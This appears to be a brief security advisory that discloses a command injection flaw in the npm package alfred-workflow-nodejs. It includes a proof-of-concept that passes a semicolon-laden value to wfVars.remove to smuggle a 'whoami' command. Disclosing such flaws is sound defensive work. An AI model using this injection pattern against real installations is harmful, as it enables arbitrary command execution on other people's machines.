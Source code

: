 # Overview

alfred-workflow-nodejs is a library providing helpers to create Alfred Workflow.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the key values.

# Proof of Concept

```
var AlfredNode = require('alfred-workflow-nodejs');
var utils = AlfredNode.utils;

utils.wfVars.remove(' "; whoami>hacked #', false);
```
